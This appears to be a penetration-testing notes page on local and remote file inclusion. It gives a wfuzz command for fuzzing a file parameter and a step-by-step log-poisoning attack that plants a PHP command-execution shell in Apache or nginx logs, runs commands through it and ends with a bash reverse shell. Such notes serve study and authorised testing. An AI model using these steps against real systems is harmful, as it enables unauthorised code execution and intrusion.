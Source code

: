 ```yaml
---
layout: default
title: LFI & RFI
parent: HTTP
grand_parent: TCP
nav_order: 4-3-6
---
```

# LFI (Local File Inclusion), RFI (Remote File Inclusion) & Directory Traversal
## Testing Methodology
- Mail Server? (See Mail log poisoning below)
- Can we modify our user agent header in Burp Suite? e.g. if '../../proc/self/environ' exists, we could modify our user agent to be "<?php code ?>

### Command Reference
- After parameter discovery is performed, or you know of a parameter to inject (e.g. "file")
```
export URL="http://$IP/thankyou.php?file=FUZZ"
wfuzz -c -z file,/opt/seclists/Fuzzing/LFI/LFI-Jhaddix.txt "$URL"
```

### Attacks
<b> Log poisoning </b>
- Apache: Do we see a lot of requests if we navigate to '../../../../var/log/apache2/access.log'? (if not, proper permissions are set)
> Example:
STEP 1: Set up netcat to connect on port 80: ```nc -nv $IP 80``` <br/>
STEP 2: Plant the code through GET Headers: ```GET /<?php passthru($_GET['cmd']);?>``` ('cmd' is only the value used to call things) <br/>
STEP 3: Send the code - a 404 will be received but it will exist within the logs.
<i>If this is nginx it will likely be under: /var/log/nginx/access.log</i>
STEP 4: From the browser head to the extension example: http://$IP/file=/var/log/nginx/access.log?cmd=ping -c 182.168.57.1 (we should see pings hit our interface)
STEP 5: Create a bash shell as the payload, wrap the payload inside 'bash -c', URL encode and set up the netcat listener - run the full encoded payload value through the 'cmd' call.


<b> Mail log poisoning </b>
- If we have a mail server, is it possible to add code inside the mail logs? Visit those mail logs through the web server to execute the payload


